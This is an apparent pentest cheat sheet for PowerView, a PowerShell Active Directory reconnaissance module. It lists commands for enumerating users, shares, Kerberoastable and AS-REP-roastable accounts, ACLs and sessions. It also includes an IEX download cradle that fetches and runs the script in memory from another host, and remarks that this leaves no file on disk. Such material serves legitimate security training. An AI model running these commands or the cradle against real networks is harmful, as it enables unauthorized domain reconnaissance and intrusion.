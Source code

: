 **PowerView** is a tool (a PowerShell module) for **Active Directory enumeration and reconnaissance**. It is not an exploit: it’s used to map the domain, find users, computers, shares, GPOs, delegations and possible attack vectors before attempting access or privilege escalation.


---

# What it’s used for (main capabilities)

- Enumerating domain users, groups and computers.
- Finding policies (password/lockout/Kerberos), OUs and GPOs.
- Locating interesting shares, machines with RDP/WinRM, privileged accounts or delegation settings.    
- Discovering relationships between accounts and services (for example, accounts used by services).
- Automating the search for vectors: accounts without preauth, accounts with SPNs (Kerberoasting), unpatched machines, etc.


---

## How to load and run it 

You can execute PowerView in memory (it won’t leave a file on disk if you load it with `IEX`), for example:

```powershell
# Download and execute in memory (lab)
IEX (New-Object Net.WebClient).DownloadString('http://10.0.0.5:8000/PowerView.ps1')

# Or, if you already have the file locally
. .\PowerView.ps1    # dot-source to import functions into the session
```

> Note: many defenses detect `IEX` + download + script execution, so this is noisy in production environments.

---

## Useful commands & examples 

Basic domain enumeration:

```powershell
Get-NetDomain               # general domain info
Get-DomainPolicy            # domain policies (password/lockout)
Get-NetForest               # forest info
```

List users and properties:

```powershell
Get-NetUser                 # list users (sAMAccountName, etc.)
Get-DomainUser -Properties userAccountControl |
  Select-Object sAMAccountName,userAccountControl
```

Find “Do not require preauthentication” accounts (AS-REP roast candidates):

```powershell
Get-DomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }
```

Enumerate computers and services:

```powershell
Get-NetComputer            # list computers
Invoke-ShareFinder         # search for interesting shares on domain machines
Find-InterestingDomainShare  # find shares that might contain creds/flags
```

Find SPNs for Kerberoasting:

```powershell
Get-DomainUser -SPN        # list accounts with SPNs
Get-DomainSID             # get domain SID
```

Search for delegation / privileged accounts:

```powershell
Get-ObjectAcl -SamAccountName 'Domain Users' -ResolveGUIDs  # advanced example
Get-NetGroupMember -Identity 'Domain Admins'
```

Enumerate ACLs and objects where a user can write:

```powershell
Get-ObjectAcl -DistinguishedName "CN=SomeObject,..." -ResolveGUIDs
# or find computers where a user is allowed to create services
Get-ADComputer -Filter * -Properties msDS-AllowedToDelegateTo  # example using AD cmdlets
```

Find active sessions / machines with RDP/WinRM:

```powershell
Get-NetSession               # SMB sessions
Get-NetLoggedon -Remote      # logged-on sessions on remote hosts
```
